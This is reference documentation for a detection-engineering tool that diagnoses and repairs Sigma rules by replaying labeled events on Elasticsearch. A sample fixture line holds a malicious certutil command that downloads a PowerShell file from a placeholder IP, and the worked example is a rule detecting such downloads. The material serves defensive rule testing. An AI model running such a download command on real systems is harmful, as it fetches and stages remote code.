

# Detection repair

Detection repair finds out why a Sigma rule misses attacks or fires on benign activity, proposes the smallest fix it can justify, and checks that fix by replaying labeled events on a pinned Elasticsearch. Use it when a rule that used to work has gone quiet after a log pipeline change, when a rule is noisy, or when you want to know whether the telemetry a rule needs is collected at all. You give it three things: a Sigma rule, an environment field mapping and labeled JSONL events. It answers with one outcome (`repaired`, `unchanged`, `abstained`, `insufficient_evidence`, `unsupported` or `engine_unavailable`) and a JSON report that holds the evidence.

The rest of this page is reference material. Source files are under [`src/aegissec/detect/`](../../src/aegissec/detect/).

## Contents

- [Quick start](#quick-start)
- [Commands](#commands)
- [Supported Sigma subset](#supported-sigma-subset)
- [Environment mapping file](#environment-mapping-file)
- [Labeled fixture file](#labeled-fixture-file)
- [Engine and index semantics](#engine-and-index-semantics)
- [Diagnosis](#diagnosis)
- [Repair contract](#repair-contract)
- [Workflow and acceptance policy](#workflow-and-acceptance-policy)
- [Outcomes and exit codes](#outcomes-and-exit-codes)
- [Report and evidence JSON](#report-and-evidence-json)
- [Bundled cases](#bundled-cases)
- [Worked example](#worked-example)
- [Research roadmap (not yet implemented)](#research-roadmap-not-yet-implemented)

## Quick start

Detection repair needs Docker for the replay engine. Every other module works without it.

```bash
aegis-sec detect engine-up        # starts the pinned Elasticsearch on 127.0.0.1:9200
aegis-sec detect engine-status    # prints "ready: http://127.0.0.1:9200" once it is up
aegis-sec detect cases            # lists the 11 bundled demonstrations
aegis-sec detect demo c01-mapping-drift-commandline
```

To run your own rule:

```bash
aegis-sec detect run --rule rule.yml --mapping mapping.yml \
  --dev development.jsonl --validation validation.jsonl
```

Without `--validation`, a repair is reported as provisional (see [Workflow](#workflow-and-acceptance-policy)).

The dashboard (`aegis-sec dashboard`) runs the same workflow from the Detection repair page, on a bundled case or on your own files.



## Commands

| Command | Arguments and options | What it does |
| --- | --- | --- |
| `detect cases` | none | Lists bundled cases with their expected outcome. |
| `detect demo CASE_ID` | `--json`, `--evidence-dir PATH` | Runs a bundled case end to end. |
| `detect run` | `--rule`, `--mapping`, `--dev` (required); `--validation`, `--healthy-rule`, `--healthy-mapping`, `--json`, `--evidence-dir PATH` | Runs the workflow on your files. |
| `detect engine-status` | none | Checks that the engine is reachable and runs the pinned version. Exit 0 when ready, 3 otherwise. |
| `detect engine-up` | `--name` (default `aegis-es`) | Starts the pinned image with `docker run`, bound to `127.0.0.1:9200`, single node, security disabled, 1 GB heap. Exit 3 if Docker is missing or `docker run` fails. |

- `--json` prints the full report instead of the text summary.
- `--evidence-dir` also writes the report as a content-addressed file (see [Evidence](#evidence-files)).
- The engine URL comes from `AEGIS_ES_URL` and defaults to `http://127.0.0.1:9200` ([`api.py`](../../src/aegissec/detect/api.py)).

## Supported Sigma subset

Version one accepts one kind of rule: a single-event Windows `process_creation` rule built from named selections. [ADR 0002](../adr/0002-sigma-subset-common-idioms.md) widened the subset to the four idioms most common in SigmaHQ: lists of field maps, `|all`, `1 of` and `all of`. Each one has a test on the pinned engine. Anything outside that subset is rejected with a reason code before conversion. The parser does not guess at semantics it cannot replay. The rules live in [`rule.py`](../../src/aegissec/detect/rule.py) and [`core/safe_load.py`](../../src/aegissec/core/safe_load.py).

### Supported

| Element | Accepted form and limits |
| --- | --- |
| YAML document | Exactly one document, at most 100 KiB, nesting depth at most 16. |
| `title` | Required non-empty string. |
| `id` | Optional; kept as a string. |
| Metadata kept | `status`, `description`, `author`, `level`, `tags`, `references`, `falsepositives`. Other top-level keys are dropped from the canonical rule. |
| `logsource` | `category: process_creation` and `product: windows`. The keys `service` (only if empty) and `definition` are tolerated. |
| Selections | 1 to 32 named selections. Each is a non-empty map of `field` or `field\|modifier` to values (an AND of its fields), or a list of 1 to 16 such maps (an OR of the maps). |
| Selection names | Match `[A-Za-z_][A-Za-z0-9_]{0,63}`. A name may not start with `and`, `or` or `not` (any case), and may not be a reserved word. |
| Fields | `Image`, `OriginalFileName`, `CommandLine`, `CurrentDirectory`, `User`, `LogonId`, `IntegrityLevel`, `Hashes`, `Product`, `Company`, `Description`, `FileVersion`, `ParentImage`, `ParentCommandLine`, `ParentUser`, `ProcessId`, `ParentProcessId` (Sysmon Event ID 1 names). |
| Modifiers | None (exact match), `contains`, `startswith`, `endswith`. One of the last three may be followed by `\|all`, so that every listed value must match. |
| Values | A string or integer, or a list of 1 to 64 of them (a list means any of the values). Each value is 1 to 4096 characters. `\*`, `\?` and `\\` are literal escapes. |
| Condition | One string built from selection names, `and`, `or`, `not`, parentheses, and the quantifiers `1 of <pattern>` and `all of <pattern>`. A pattern is a selection name with `*` wildcards, or `them` (the same as `*`). As in pySigma, a selection whose name starts with `_` matches only a pattern that also starts with `_`. Quantifiers are expanded at parse time into an OR or an AND of the matching selections, in definition order, so exported rules show the expanded form, with every nested group in parentheses. Precedence is `not`, then `and`, then `or`. At most 4096 characters and 32 levels of parentheses. |

Matching is case-insensitive because of the [index settings](#engine-and-index-semantics).

### Rejected

| Rule content | Reason code |
| --- | --- |
| Top-level `correlation`, `filter` or `action` key | `unsupported_rule_type` |
| `timeframe` under `detection` | `unsupported_rule_type` |
| More than one YAML document | `unsupported_rule_type` |
| Any other `logsource`, a non-empty `service`, or extra `logsource` keys | `unsupported_logsource` |
| Keyword lists, empty selections, list items that are not maps, or more than 16 alternative maps | `unsupported_selection_form` |
| Modifiers other than those above (for example `re`, `base64`, `cidr`, `windash`, `cased`), `\|all` on its own or after an exact match, or any other modifier chain | `unsupported_modifier` |
| `null`, boolean, float or nested values; empty values or values over 4096 characters; zero or more than 64 values per field, or more than 2048 in the whole rule | `unsupported_value` |
| An unescaped `*` or `?` in a value | `unsupported_wildcard` |
| Condition that is not one string, uses an aggregation pipe `\|`, a quantifier count other than `1`, a malformed quantifier target, unbalanced parentheses, more than 32 levels of nesting or more than 4096 characters | `unsupported_condition` |
| Field outside the supported list | `unknown_field` |
| Condition names a selection that does not exist, or a quantifier pattern matches none | `undefined_selection` |
| Missing `title`, `detection` not a map, empty condition, invalid selection name, non-string field key, zero or more than 32 selections | `invalid_rule` |
| Invalid YAML or a duplicate key | `malformed_yaml` |
| YAML anchors or aliases | `yaml_alias_not_allowed` |
| Explicit YAML tags such as `!!python/object` | `yaml_tag_not_allowed` |
| Nesting deeper than 16 levels | `nesting_too_deep` |
| Rule over 100 KiB | `input_too_large` |
| pySigma conversion fails or returns more than one query | `conversion_failed` |

Codes that start with `unsupported_`, plus `unknown_field`, produce the `unsupported` outcome (exit 11). The others are input errors: the CLI exits 2 and the API returns HTTP 400 ([`workflow.py`](../../src/aegissec/detect/workflow.py), `UNSUPPORTED_REASONS`).

## Environment mapping file

The mapping says which index field holds each Sigma field in your environment. It plays the role of a pySigma processing pipeline ([`mapping.py`](../../src/aegissec/detect/mapping.py)).

```yaml
schema_version: 1
name: lab-ecs
fields:
  Image: process.executable
  CommandLine: process.command_line
  ParentImage: process.parent.executable
```

- `schema_version` must be `1`, `name` must be a string and `fields` a map. Otherwise: `invalid_mapping`.
- Each key must be a supported Sigma field (`unknown_field` if not).
- Each value must match `[A-Za-z_@][A-Za-z0-9_@.\-]{0,254}` (`invalid_mapping` if not).
- A Sigma field missing from `fields` is queried under its own name, for example `CommandLine`.
- The file uses the same safe YAML loader as rules, with the same 100 KiB limit.
- The mapping hash is SHA-256 over canonical JSON of `name` and `fields`, so formatting and key order do not change it.

Conversion uses the pySigma Lucene backend with one field-mapping transformation. The exact query it produces is the query that runs on the engine.

## Labeled fixture file

Fixtures are JSON Lines: one event object per line ([`fixtures.py`](../../src/aegissec/detect/fixtures.py)).

```json
{"event_id": "d-m1", "label": "malicious", "scenario_id": "S-certutil-urlcache", "data": {"process": {"executable": "C:\\Windows\\System32\\certutil.exe", "command_line": "certutil.exe -urlcache -f http://198.51.100.9/p.ps1 out.bin"}}}
{"event_id": "d-b1", "label": "benign", "scenario_id": null, "data": {"process": {"executable": "C:\\Windows\\System32\\certutil.exe", "command_line": "certutil.exe -hashfile a.iso SHA256"}}}
```

| Key | Rule |
| --- | --- |
| `event_id` | Required. Matches `[A-Za-z0-9_.:\-]{1,128}` and is unique within the file. It becomes the document ID in the index. |
| `label` | Required. `malicious`, `benign` or `unknown`. |
| `scenario_id` | Optional string or `null`. Malicious events sharing a scenario form one attack scenario. A malicious event without one is its own scenario, named `event:<event_id>`, so it can never be dropped silently. |
| `data` | Required object. The event as your pipeline stores it, nested or with dotted keys. Only `data` is indexed; labels never reach the engine. |

Other keys on a line are ignored. Blank lines are skipped. Limits:

- the file is at most 250 MiB, and each line at most 1 MiB;
- each line nests at most 16 levels deep, counting the line object itself;
- the file holds at least one event;
- string values longer than 32766 characters are refused when indexed (`invalid_fixture`), because the engine would store them without making them searchable.

Through the HTTP API, each fixture text is capped at 25 MiB and the whole request at 60 MiB.

Any rule violation raises `invalid_fixture` (or `malformed_jsonl`, `input_too_large`, `nesting_too_deep`) with the file name and line number. The dataset hash is SHA-256 over the file bytes.

## Engine and index semantics

The engine is the only matching oracle. Aegis-Sec has no Python matcher standing in for it, and a successful conversion is never treated as proof that a rule works ([`engine.py`](../../src/aegissec/detect/engine.py)).

**Pinned version.** The image is `docker.elastic.co/elasticsearch/elasticsearch:8.19.3` locked to digest `sha256:bbac63ecd50e9263565fbb616172a5287d5f99e486d76453e81e32cafcba3838`. Every run first checks that the engine reports version 8.19.3. Any other version fails with `engine_error`.

**One index per run.** Each dataset is loaded into a fresh index named `cg-replay-` plus 16 random hex characters, with one shard, no replicas and no automatic refresh. The loader refuses to write to any other index name. The index is deleted when the run ends, including after errors.

**Field types.** Date and numeric detection are off. Every JSON string is indexed as a `keyword` with a lowercase normalizer. JSON numbers keep their numeric type.

**Loading.** Events are bulk-loaded in chunks of 5,000 and the index is refreshed once. The indexed count must equal the number of events, or the run fails with `index_count_mismatch`. Any bulk error fails the run with `engine_error`.

**Matching behavior.** These follow from the index settings and are pinned by the engine tests in [`tests/detect/test_engine_workflow.py`](../../tests/detect/test_engine_workflow.py):

- String matching is case-insensitive for exact and wildcard terms. `\CertUtil.EXE` matches `certutil.exe`.
- A missing field never matches a positive predicate.
- `NOT` on a missing field matches every event. A filter such as `selection and not filter` whose filter field is mapped to a field that no longer exists excludes nothing. Mapping drift on a filter field disables the exclusion without any error.
- An array field matches when any element matches.
- `endswith` requires the value at the end. `certutil.exe.bak` does not match `endswith: certutil.exe`.
- Values over 32766 characters are rejected at load time (`invalid_fixture`) instead of silently never matching.

**Querying.** The pySigma query runs unchanged through `query_string`. Results are paged 5,000 at a time with a point in time and `search_after`, so every match is retrieved. A timed-out search, a shard failure, or a retrieved count that differs from the total hit count fails with `engine_error`. Results are never truncated.

**Errors are not misses.** A conversion or engine error becomes an errored replay with `"counts": null`. It is never scored as zero matches, which would read as "missed every attack". A transport failure (`engine_unavailable`) stops the run.

## Diagnosis

Diagnosis compares the rule's fields with what the development events contain, then compares replay matches with labels ([`diagnose.py`](../../src/aegissec/detect/diagnose.py)). It can return several hypotheses at once. Ambiguous evidence returns every plausible family instead of one guess.

**Coverage.** For each field the rule uses, the report lists `sigma_field`, `index_field`, `mapped` (true when the mapping names it explicitly), `present` (development events with a non-null value at that index field) and `total`.

**Families and reason codes.**

| Family | Reason codes | Raised when |
| --- | --- | --- |
| `mapping` | `mapped_field_absent`, `similar_field_observed` | The mapped index field is absent from every development event, and at least one other observed field could hold it (see below). Up to four candidates are listed in `alternative_index_fields`. |
| `missing_telemetry` | `field_not_collected` | The mapped field is absent everywhere and no alternative field qualifies. |
| `missing_telemetry` | `field_absent_on_malicious_events` | The field is present on some events but on none of the malicious ones, so the attacks carry no evidence for it. |
| `noise` | `benign_events_matched` | The original rule matched benign events. Their IDs (up to 64) are in `evidence_event_ids`. |
| `logic` | `malicious_missed_fields_present` | The rule missed malicious events while every field it needs is present. Missed IDs (up to 64) are in `evidence_event_ids`. |

**Alternative fields.** A field qualifies as an alternative when all of these hold:

- it is observed in the development data and holds strings;
- it is not already the target of another mapping entry;
- it describes the same process as the Sigma field: `Parent*` Sigma fields pair only with index fields whose name contains `parent`, and other fields only with names that do not;
- at least one labeled event has a value there that fits the rule's predicates for that field.

A similar name alone does not qualify a field. Qualifying fields are ranked by the number of fitting events, then by name similarity. The value check only proposes alternatives. Every proposal is still replayed on the engine before it can be accepted.

**Telemetry guidance.** For `missing_telemetry`, the report includes collection guidance per field. `CommandLine` and `ParentImage` have specific Sysmon and Security event 4688 advice; other fields get a generic Sysmon Event ID 1 recommendation. This guidance is a recommendation, never an automatic repair.

## Repair contract

A repair candidate is a structured envelope validated with Pydantic. Unknown keys are refused ([`candidate.py`](../../src/aegissec/detect/candidate.py)).

| Field | Rule |
| --- | --- |
| `schema_version` | `1` |
| `proposal_id` | `^[A-Za-z0-9_.\-]{1,64}$`; B0 uses `b0-<family>-<n>` |
| `original_sha256` | SHA-256 of the exact rule source the candidate targets |
| `patch_kind` | `rule` or `mapping` |
| `patch` | 1 to 3 operations |
| `reason_codes`, `assumptions` | Lists of strings |
| `evidence_event_ids` | Up to 64 IDs |
| `model_revision` | `deterministic-b0` for this release |
| `prompt_sha256` | `null` for this release |

**Patch operations.**

| `kind` | Fields | Effect | Edits counted |
| --- | --- | --- | --- |
| `mapping` | `sigma_field`, `from_field`, `to_field` | Points one Sigma field at a different index field. | 1 |
| `add_exclusion` | `predicates` (1 to 3) | Adds selection `cg_filter_<n>` and rewrites the condition to `(<original>) and not cg_filter_<n>`. | 1 plus 1 per predicate |
| `set_predicate` | `selection`, `field`, `predicate` | Replaces one existing predicate's modifier, values or `match_all`. The field must occur exactly once across all of the selection's alternative maps. | 1 each for a changed modifier, value list or `match_all` |
| `set_condition` | `condition` (up to 1024 characters) | Replaces the condition. | Approximate AST edit distance |

A predicate spec has `field`, `modifier` (`equals`, `contains`, `startswith` or `endswith`), 1 to 8 `values` and an optional `match_all` (default `false`).

**Edit budget and refusals.** A candidate is refused with `invalid_candidate` when:

- it targets a different rule version (`original_sha256` mismatch);
- a `mapping` candidate holds a non-mapping operation, or a `rule` candidate holds a mapping operation;
- a mapping patch names a field the rule does not use, an invalid index field, or a `from_field` that is not the current mapping target;
- an exclusion tests the same field and modifier twice;
- `set_predicate` does not hit exactly one existing predicate on that field in that selection;
- `set_condition` changes the set of selections the condition references, so no candidate can drop or add a selection;
- the total exceeds 3 AST edits. An exclusion with three predicates costs 4 edits and is therefore always refused.

A patched rule is re-serialized and parsed again, so it must pass the same validator as an imported rule. At most four candidates survive screening.

**B0 generators.** Baseline B0 proposes candidates from the evidence without any model ([`repair.py`](../../src/aegissec/detect/repair.py)):

- **Mapping.** One `mapping` candidate per alternative field.
- **Noise.** One `add_exclusion` per context field, tried in this order: `ParentImage`, `OriginalFileName`, `Company`, `Product`, `ParentCommandLine`, `User`, `Image`. A field qualifies when the benign matches carry 1 to 8 distinct values in it, and none of those values (ignoring case) appears on any malicious event. Candidates are ranked by how many benign matches they cover, and the top four are kept. `CommandLine` is never used, because exact command-line exclusions overfit the fixtures.
- **Logic.** Every condition one edit away (negate or un-negate a node, swap `and` and `or`), up to 32. Two value fixes are added: an exact `Image` or `ParentImage` value without a backslash becomes `endswith: \<value>`, and an exact `CommandLine` or `ParentCommandLine` value becomes `contains`.

## Workflow and acceptance policy

The workflow is one function shared by the CLI and the API ([`workflow.py`](../../src/aegissec/detect/workflow.py)).

1. **Parse** the rule. An unsupported construct ends the run as `unsupported`.
2. **Load** the mapping and fixtures, and profile the development schema.
3. **Check independence.** Validation fixtures must not have the same file hash as the development fixtures and must not share any `event_id` with them. Otherwise the run fails with `invalid_fixture`.
4. **Check the engine.** If it is unreachable, the run ends as `engine_unavailable`. The report still holds the schema profile and field coverage.
5. **Replay the original** rule on development events and diagnose it. If that replay errors, the outcome is `abstained`.
6. **Stop early** when the evidence calls for it:
   - any `missing_telemetry` hypothesis ends the run as `insufficient_evidence` with telemetry recommendations, because no rule change can restore fields that were never collected;
   - no hypotheses ends it as `unchanged`.
7. **Screen candidates** on development events. Each generated candidate is applied and replayed. It is rejected when:
   - it fails to apply;
   - its replay errors;
   - it detects fewer malicious events than the original, or loses a scenario the original detected;
   - it detects no more malicious events and matches no fewer benign ones.

   Survivors are ranked by scenarios detected, then malicious events detected, then fewest benign matches, then the smallest patch. The top four are kept; the rest are recorded as `outranked`. No survivors ends the run as `abstained`.
8. **Freeze the selection.** The top-ranked survivor is the only candidate that goes on to validation. Validation results never influence which candidate is chosen.
9. **Validate** on the held-out fixtures. The original rule is replayed first; its benign match count is the baseline. If you supply `--healthy-rule` or `--healthy-mapping`, the healthy reference is replayed instead and its benign count becomes the baseline. An error in either replay ends the run as `abstained`.
10. **Apply the policy.** The selected candidate passes only when its validation replay has no failures from the list below. Otherwise the run ends as `abstained`.

If you give no validation fixtures, step 8 ends the run as `repaired` with `"provisional": true` and the reason "development evidence only; supply validation fixtures before approval".

**Policy failures** (`policy_failures` in [`workflow.py`](../../src/aegissec/detect/workflow.py)):

| Code | Meaning |
| --- | --- |
| `replay_error` | The candidate's validation replay errored. |
| `no_attack_scenarios_in_suite` | The validation suite has no malicious events, so it cannot show preservation. |
| `mandatory_scenario_missed` | Some attack scenario in the suite was not detected. |
| `preservation_loss` | A scenario the original rule detected is no longer detected. |
| `malicious_events_lost` | The candidate detects fewer malicious events than the original. |
| `benign_matches_above_baseline` | The candidate matches more benign events than the baseline. |
| `no_benign_reduction` | Only when a `noise` hypothesis was raised: the candidate does not reduce benign matches below the original's count. |

A passed suite establishes behavior only on the scenarios it tested. Zero benign matches on a small sample does not establish a zero false-positive rate in production.

## Outcomes and exit codes

| Outcome | Meaning | CLI exit |
| --- | --- | --- |
| `repaired` | A candidate passed (or, without validation fixtures, passed screening and is marked provisional). The report holds the diff and artifact. | 0 |
| `unchanged` | No hypothesis was raised. The rule meets expectations on the development fixtures. | 0 |
| `abstained` | No candidate survived screening, the selected candidate failed validation, or a required replay errored. | 10 |
| `insufficient_evidence` | A field the rule needs is not collected for the attacks. Telemetry guidance is included. | 10 |
| `unsupported` | The rule uses semantics outside the supported subset. | 11 |
| `engine_unavailable` | The engine was not reachable at the start of the run. Static coverage is still reported. | 3 |

Exit code 2 means the run could not produce an outcome. Causes include a rejected rule, mapping or fixture, an unknown case ID or missing file, an engine that is not the pinned version, an engine error while loading events, and an engine that became unreachable after the run started. The error is printed to stderr as `error: <reason>: <detail>` ([`cli.py`](../../src/aegissec/detect/cli.py)).

## Report and evidence JSON

The report is the same for `detect run --json`, `detect demo --json`, `POST /api/detect/run` and `POST /api/detect/cases/{case_id}/run`. The case route also adds `case`, the case manifest. Keys appear only once the run reaches the step that fills them.

| Key | Content |
| --- | --- |
| `schema_version` | `1` |
| `outcome`, `reason` | The outcome and a plain-language reason, or `null` |
| `rule` | `title`, `id`, `sha256` |
| `mapping` | `name`, `sha256` |
| `datasets` | `development` and `validation` file hashes (`validation` may be `null`) |
| `schema_profile` | `total_events` and per-field `present`, `null`, `types`, `cardinality`, `cardinality_capped` (distinct values are counted up to 10,000) |
| `coverage` | One entry per rule field (see [Diagnosis](#diagnosis)) |
| `original` | Replay results for `development` and, if run, `validation` |
| `hypotheses` | `family`, `reason_codes`, `fields`, `evidence_event_ids`, `alternative_index_fields` |
| `telemetry_recommendations` | `insufficient_evidence` only: `field`, `guidance` |
| `candidates` | Up to four screened candidates: `candidate` (the envelope) and `development` (replay). The selected one also has `validation`, `policy_failures` and `passed`. |
| `rejected_candidates` | `proposal_id` and `reason` for every refused or outranked candidate |
| `healthy_reference` | `validation` replay of the healthy rule or mapping, when given |
| `selected`, `provisional` | `repaired` only: the chosen `proposal_id`, and whether validation was skipped |
| `diff` | `repaired` only: unified diff of `rule.yml` or `mapping.yml` |
| `artifact` | `repaired` only: `kind` (`rule` or `mapping`), `content` (the full patched file) and `sha256` |
| `manifest` | `aegis_sec_version`, `git_sha`, `python`, `platform`, `machine`, `started_at`, `finished_at`, `elapsed_ms`, `engine_image`, `pysigma`, `pysigma_backend_elasticsearch` |

Each replay result holds `rule_sha256`, `mapping_sha256`, `dataset_sha256`, `query`, `error`, `counts` (`tp`, `fp`, `fn`, `tn`, `unknown_matched`, or `null` on error), `scenarios_expected`, `scenarios_detected` and `matched_event_ids`. Events labeled `unknown` count only toward `unknown_matched`.

### Evidence files

With `--evidence-dir DIR`, the report is serialized as canonical JSON (sorted keys, no spaces, UTF-8), hashed with SHA-256 and written atomically to `DIR/<sha256>.json` ([`core/evidence.py`](../../src/aegissec/core/evidence.py)). The printed output gains an `evidence` key with `sha256` and `path`; the stored file does not contain that key. The manifest holds timestamps, so two runs of the same case produce different files.

## Bundled cases

The 11 cases under [`src/aegissec/detect/cases/`](../../src/aegissec/detect/cases/) are generated by [`scripts/build_detect_cases.py`](../../scripts/build_detect_cases.py). Every event is synthetic (`provenance: synthetic`). They are unit-level demonstrations of each path through the workflow, not a benchmark, and they say nothing about real telemetry. The engine test suite checks that each case reaches its expected outcome.

Each case directory holds `case.yml`, `rule.yml`, `mapping.yml`, `development.jsonl` and `validation.jsonl`, plus `healthy_rule.yml` or `healthy_mapping.yml` where a healthy reference applies.

| Case | Fault | Expected outcome |
| --- | --- | --- |
| `c00-healthy-control` | None; certutil download rule | `unchanged` |
| `c01-mapping-drift-commandline` | `CommandLine` mapped to `winlog.event_data.CommandLine`; data uses `process.command_line` | `repaired` (mapping) |
| `c02-mapping-drift-parentimage` | Parent path renamed to `process.parent.path`, with no name similarity | `repaired` (mapping) |
| `c03-noise-updater-temp` | A legitimate updater runs from Temp; needs a narrow parent exclusion | `repaired` (rule) |
| `c04-noise-installer-schtasks` | An installer creates scheduled tasks | `repaired` (rule) |
| `c05-missing-telemetry-commandline` | Command lines not collected | `insufficient_evidence` |
| `c06-missing-telemetry-parentimage` | Parent process not collected | `insufficient_evidence` |
| `c07-logic-and-or` | Condition requires two selections that never co-occur | `repaired` (rule) |
| `c08-modifier-exact-vs-endswith` | `Image` compared exactly to `mshta.exe` but holds a full path | `repaired` (rule) |
| `c09-unsupported-regex` | Uses the `re` modifier | `unsupported` |
| `c10-logic-missing-not` | Condition is `selection and filter_sccm` | `repaired` (rule) |

To regenerate the cases after changing the generator, run `uv run python scripts/build_detect_cases.py`.

## Worked example

Case `c01-mapping-drift-commandline` reproduces a log pipeline change. The rule looks for certutil downloads:

```yaml
detection:
  selection:
    Image|endswith: \certutil.exe
    CommandLine|contains:
    - -urlcache
    - -verifyctl
  condition: selection
```

The environment mapping still points `CommandLine` at `winlog.event_data.CommandLine`, but the events now store it in `process.command_line`. The run below used the pinned engine at `http://127.0.0.1:9200`:

```text
$ uv run aegis-sec detect demo c01-mapping-drift-commandline
outcome: repaired
rule:    Certutil remote download  (e1f7a2c859ae)
finding: mapping [mapped_field_absent, similar_field_observed] CommandLine
original development: TP=0 FP=0 FN=3 TN=6
original validation: TP=0 FP=0 FN=4 TN=6
candidate b0-mapping-1: passed

--- a/mapping.yml
+++ b/mapping.yml
@@ -1,7 +1,7 @@
 schema_version: 1
 name: lab-ecs-stale
 fields:
-  CommandLine: winlog.event_data.CommandLine
+  CommandLine: process.command_line
   Company: process.pe.company
   Image: process.executable
   OriginalFileName: process.pe.original_file_name
```

The exit code was 0. Reading the output line by line:

- `finding` shows that the mapped field was absent from every development event, and that a field whose values fit the rule's `contains` predicates was observed.
- The original rule missed all three development attacks and all four validation attacks (`FN=3`, `FN=4`).
- `b0-mapping-1` was selected on the development fixtures, then frozen and validated. In the JSON report its validation replay shows `tp: 4, fp: 0`, the same as the healthy mapping reference, so no policy failure applied.
- The fix is a mapping change. The portable rule logic is untouched.

Add `--json` to see the full report, or `--evidence-dir ./evidence` to keep a hashed copy.

## Research roadmap (not yet implemented)

Only B0 ships in this release. The later stages come from sections 12 and 13 of the [engineering plan](../CyberGuard_Engineering_Plan.md). They are research work planned for university HPC, and none of them exists in this package.

| Stage | Method | Condition to proceed (from the plan) |
| --- | --- | --- |
| B0 (shipped) | Maintained mappings and deterministic diagnostics | Required non-ML baseline |
| B1 | Lexical and embedding retrieval of reviewed training repairs | Establish what retrieval contributes |
| B2 | Unmodified open model with structured output | Measure generation without training |
| M1 | Supervised fine-tuning with LoRA or QLoRA | Enough reviewed training data and a remaining failure gap |
| M2 | Learned candidate ranker with execution features | Ranking errors limit selection quality |
| M3 | Preference optimization such as DPO | Reliable chosen and rejected candidate pairs |
| M4 | Distillation and quantized inference | The best model has useful gains and a deployment people can run |

The plan's research question asks whether execution-supervised adaptation improves independently validated repair success and reduces analyst review time. The comparison is against maintained mappings, retrieval-assisted prompting and an unmodified open model, all under the same evidence and candidate budget. The plan sets these evaluation rules:

- **Validated repair success** is fully accepted repairs divided by all eligible impaired cases. Abstentions and failures stay in the denominator.
- B0, B1, B2, M1 and M1 with a ranker are evaluated on identical frozen cases, split by rule root so related variants never cross partitions.
- Prompts, thresholds and candidate limits are tuned on development roots only. The locked test set runs once, after a model is chosen.
- Confidence intervals are bootstrapped and clustered by root or rule family.
- If adaptation gives no credible improvement over B2, the stronger baseline ships and the negative result is reported.

The plan's targets (for example, 70 percent validated repair success on eligible supported test cases) are aspirational goals, not measured results. Model outputs, when they exist, will use the same candidate envelope (`model_revision`, `prompt_sha256`) and the same acceptance policy as B0.
